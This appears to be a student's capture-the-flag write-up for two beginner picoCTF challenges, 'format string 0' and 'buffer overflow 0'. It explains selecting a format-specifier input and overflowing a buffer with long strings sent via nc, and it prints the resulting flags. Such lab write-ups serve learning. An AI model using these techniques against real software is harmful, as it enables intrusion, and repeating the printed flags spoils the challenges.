
# format string 0

**flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}

**Thought Process**

* Since the first hint encouraged us to know about **format specifiers**, I knew the vulnerability would be something related to that.
* The second hint told us to try out different options. This, of course, referred to the code giving us options to input and it implied that inputting certain options would give us the flag.

Now, when you initially start the instance from the website, you're shown this:

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

At the first glance, instinctively I picked `Gr%114d_Cheese` has it had a format specifier (denoted by `%`, `%114d` just represents the number of characters it can hold) in it.  Upon that input, we're hit with:

```bash
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

As we can tell, there was a little bit of a glitch with the spacing, which further exposes the format specifier vulnerability. Now, obviously, we're gonna choose the option that has more number of `%`s, which is `Cla%sic_Che%s%steak`.  This then gives us the flag.

**Alternative Method**

After going thru the code provided to us, I noticed that there would be a certain threshold of the amount of characters I can give as input before the program malfunctions. So I tried inputting random number of characters and after I gave it 55 characters (to be exact), it directly spat out the flag.

```bash
shady@WIN-3CTPHJ9NI00:~$ nc mimas.picoctf.net 57883
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: noewnfnufnisbfaeisbfisabfaesbfsbfnefunfeneafaioufbeubfea
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Two things I noticed here are**: 
* The long string to be inputted does not require `%`s in it at all. A collection of random alphanumeric characters worked.
* The string had to be exactly 55 characters or more. Although I cannot explain why the number is 55 and not 64 or 32, I found it out thru trial and error. 

**Mistakes Made**

* Spend too much time trying to understand and modify the code to make it give me the flag. Pretty dumb move in hindsight. 

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

**Thought Process**

* Since this is another question using the concept of **buffer overflow**, I juts went thru the code once and noticed that to overflow `buf2`, I'd need to exceed it's capacity of **16 bytes**.
* I started with 16 and eventually, at 20 characters, It outputted the flag.

Here's the input and output for 19 and 20 characters respectively:

```bash
nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssds
The program will exit now
^C

nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssdsh
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```




